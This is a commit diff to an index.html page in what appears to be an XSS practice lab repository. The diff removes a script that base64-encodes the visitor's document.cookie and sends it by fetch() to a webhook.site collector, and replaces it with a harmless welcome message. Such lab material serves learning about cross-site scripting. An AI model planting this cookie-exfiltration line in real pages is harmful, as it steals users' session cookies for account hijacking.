

Before and after one commit to bibobirdy17/Lab-xss4, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,9 +1,11 @@
 <!DOCTYPE html>
 <html>
+  <head>
+    <meta charset="UTF-8">
+    <title>Hello Admin 😈</title>
+  </head>
   <body>
-    <h1>Hello Admin 😈</h1>
-    <script>
-      fetch("https://webhook.site/9bc06737-4c26-4e9f-accd-443fe410efa7?" + btoa(document.cookie));
-    </script>
+    <h1>Welcome!</h1>
+    <p>This is a harmless little demo page 🤓</p>
   </body>
 </html>
```
